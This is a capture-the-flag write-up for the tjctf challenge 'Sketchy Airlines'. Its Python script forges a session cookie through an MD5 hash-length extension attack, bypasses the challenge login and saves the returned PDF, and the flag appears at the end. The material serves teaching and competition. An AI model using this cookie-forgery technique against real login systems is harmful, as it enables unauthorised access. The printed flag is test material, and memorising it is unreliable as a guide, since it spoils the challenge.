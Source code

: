 # Sketchy Airlines (100 pts)

---

## Problem

---

## Solution

1. Scan barcode given in picture (type is PDF417) to get his ticket number
2. Get to login portal by entering ticket number
3. Use a Hash-length extension attack to bypass the login. Set username to his full name
4. Run pdftotext on the PDF that is returned. Get flag.

Python code to generate the LEA:
```
import hashpumpy
import urllib2
import requests

# md5($SECRET_KEY . $sess_str)
session = 'logged_in%253Dfalse%2526name%253D'
session = urllib2.unquote(session)
session = urllib2.unquote(session)
digest = '2cc207d867af2d2a55ff4141b6e3e8f2'

append = '&logged_in=true&name=John Doe'

#generate a valid hash and message
hp = hashpumpy.hashpump(digest, session, append, 16)
hsh= hp[0] 
msg= hp[1]
msg = urllib2.quote(msg)
print "msg="+msg
print "hash="+hsh

cookies = {'session':msg, 'hash':hsh}
url = 'http://sketchyairlines.p.tjctf.org/verify_login.php?flight=2198-b14f-e3c9-c54d-0b65'
r = requests.post(url, data = {'username':'admin', 'password': 'password', 'debug': 'true'}, cookies = cookies)

f = open("flight.pdf", "w+")
f.write(r.content)
f.close()
```

---

## Flag
`tjctf{h1d3_y0UR_84RC0d3s}`